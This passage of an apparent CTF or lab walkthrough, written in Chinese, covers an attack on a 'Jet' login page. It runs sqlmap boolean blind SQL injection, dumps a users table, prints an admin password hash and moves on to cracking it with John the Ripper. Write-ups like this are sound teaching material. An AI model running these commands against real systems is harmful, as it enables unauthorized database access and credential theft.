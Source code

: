 但是无法直接绕过登录，前端页面只有两种回显，可以考虑使用布尔（`Bool`）盲注

将`POST`报文写入一个文件，然后使用`SQLmap`进行注入

```
[root@kali] /home/kali/Jet  
❯ sqlmap -r login.txt --dbs
```

![](./images/image-112.png)

存在`jetadmin`这个数据库

```
[root@kali] /home/kali/Jet  
❯ sqlmap -r login.txt -D jetadmin -T users -dump
```

在`user`表里存在`admin`的用户信息

![](./images/image-113.png)

```
97114847aa12500d04c0ef3aa6ca1dfd8fca7f156eeb864ab9b0445b235d5084
```

使用`John The Ripper`进行密码爆破
